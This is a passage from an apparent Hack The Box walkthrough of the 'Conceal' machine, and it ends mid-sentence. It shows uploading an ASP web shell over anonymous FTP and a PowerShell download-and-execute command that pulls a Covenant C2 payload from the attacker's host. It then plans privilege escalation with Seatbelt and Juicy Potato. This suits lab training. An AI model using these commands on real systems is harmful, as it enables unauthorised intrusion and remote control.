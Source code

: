 So we can upload files and access them via the web. This will allow us to upload a web shell from https://github.com/tennc/webshell/tree/master/asp. Lets upload that using ftp:

c:\Users\rin\Desktop

λ ftp conceal.htb

Connected to conceal.htb.

220 Microsoft FTP Service

200 OPTS UTF8 command successful - UTF8 encoding now ON.

User \(conceal.htb:\(none\)\): anonymous

331 Anonymous access allowed, send identity \(e-mail name\) as password.

Password:

230 User logged in.

ftp&gt; put webshell.asp

200 PORT command successful.

125 Data connection already open; Transfer starting.

226 Transfer complete.

ftp: 1405 bytes sent in 0.39Seconds 3.65Kbytes/sec.

ftp&gt;

Typing in whoami into the cmd gives us conceal\destitute \(Figure 10-12\)

![Graphical user interface, text, application, email

Description automatically generated](../.gitbook/assets/11.png)

whoami command in webshell on Conceal

On Covenant, we can use a Launcher to get a PowerShell script that we can put into a file grunt.ps1 and serve it using python -m http.server 8000 -bind 10.10.14.117. From the webshell, we can use the command:

powershell "IEX\(New-Object Net.WebClient\).downloadString\('http://10.10.14.117:8000/grunt.ps1'\)"

You should see a hit on the python web server and then in Covenant, a notification that the grunt is active. Interacting with the grunt, we can send command such as whoami

\[2/1/2021 5:34:27 AM UTC\] WhoAmI completed

\(admin\) &gt; whoami

CONCEAL\Destitute

We can run Seatbelt -group=all which is an application like winPEAS and suggest privilege escalations for us. Going through the output, the current user has SeImpersonatePrivilege privilege. This means we can probably use Juicy Potato. We can get a release version of this from GitHub \(https://github.com/ohpe/juicy-potato\) and upload it using the command upload in Covenant. We can upload to c:\Users\Destitute\Desktop. We will also upload the PowerShell script from the Launcher as a batch file. We can run Juicy Potato then with the command
